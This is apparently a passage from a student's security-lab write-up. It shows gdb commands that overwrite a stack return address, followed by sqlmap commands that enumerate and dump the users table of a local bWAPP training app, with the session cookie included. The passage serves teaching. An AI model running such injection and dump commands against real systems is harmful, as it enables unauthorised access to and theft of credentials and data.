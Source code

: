```sh
 x/80xb $esp
```
-Identify the return address while watching out the stack

```sh
set *0xffffd728 = 0xffffd720
```
<img width="286" alt="{801D97E9-2100-4670-BBFC-99D25D4A5520}" src="https://github.com/user-attachments/assets/0d1e661e-8c8b-429b-a1ca-1c3e8cd95682">
- Continue executing program
<img width="1280" alt="{18B5C310-39E5-4EFE-BED1-9484F8B8A06A}" src="https://github.com/user-attachments/assets/6dccd6ec-cf99-45cb-9cdb-a108c7127a19">
-return to gdb
<img width="214" alt="{22246C12-EC01-48C5-AE63-6DE224DD040C}" src="https://github.com/user-attachments/assets/a1de13a2-95f8-4e84-9514-163aff8d9244">



# Task 2. Attack on the database of bWapp
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.
**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
## 1. Install sqlmap.
```sh
git clone https://github.com/sqlmapproject/sqlmap.git
```
Get database from bWapp
-u "http://localhost:8025/sqli_1.php?": This specifies the target URL where SQL injection can be tested. Make sure to modify the URL parameter if necessary.
--dbs: This option tells sqlmap to enumerate the databases on the target server.
```sh
python sqlmap.py -u "http://localhost:8025/sqli_1.php"  --cookie="PHPSESSID=kjn0r8jf0fackfpdbnvq8b8se6; security_level=0" --dbs --forms
```
<img width="858" alt="{2EDB7DEE-0CB2-4193-827C-39139690C225}" src="https://github.com/user-attachments/assets/8b534ac0-955b-490c-87a3-9c882ec44f92">

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
- Take information from users in bWAPP then I have user and password

```sh
 python sqlmap.py -u "http://localhost:8025/sqli_1.php"  --cookie="PHPSESSID=kjn0r8jf0fackfpdbnvq8b8se6; security_level=0" --forms -D bWAPP -T users --dump
```
<img width="864" alt="{A82DBC29-4E9C-4CAC-B31E-CFA61466134C}" src="https://github.com/user-attachments/assets/838ab536-59ba-4353-bcbe-d63c69c76d2a">
<img width="855" alt="{78EC48A3-6000-481A-9B51-E70BC4C3A9EC}" src="https://github.com/user-attachments/assets/bc3fed61-56cd-44eb-826e-2cc4dfdd7441">





